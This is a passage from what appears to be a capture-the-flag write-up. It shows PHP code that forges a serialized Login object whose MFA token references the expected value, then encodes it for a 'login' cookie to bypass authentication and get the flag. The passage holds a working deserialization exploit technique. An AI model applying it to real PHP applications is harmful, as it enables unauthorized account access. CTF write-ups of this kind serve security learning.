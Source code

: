 ```php
		$this->sql = new SQL();
	}
}

class Login
{
	public $user;
	public $mfa_token;
	protected $_correctValue;
	
	function __construct()
	{
		$this->user = new User();
		$this->mfa_token = &$this->_correctValue;
	}
}

$login = new Login();
var_dump($login);
echo urlencode(base64_encode(serialize($login)));
```

![Output](img/solve.png)

Plugging this into the `login` cookie on our browser, we can login and get the flag.

![Flag](img/flag.png)